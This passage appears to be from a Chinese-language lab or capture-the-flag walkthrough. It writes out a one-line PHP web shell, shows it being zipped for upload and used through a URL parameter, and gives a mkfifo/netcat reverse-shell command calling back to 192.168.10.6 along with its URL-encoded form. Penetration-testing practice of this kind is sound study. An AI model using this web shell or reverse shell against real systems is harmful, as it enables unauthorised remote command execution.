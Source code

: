 ![](./pic/21.jpg)

那么编写一个代码，以可以命令执行

```shell
echo '<?php system($_GET["loly"]);?>' > shell.php
zip -r -o shell.php.zip shell.php
```

上传后，访问即可，构造`shell.php?loly=ls`，即可发现

![](./pic/22.jpg)

构造反弹`shell`代码，首先在`kali`开启监听，然后再使用下面代码

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
#进行url编码
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```
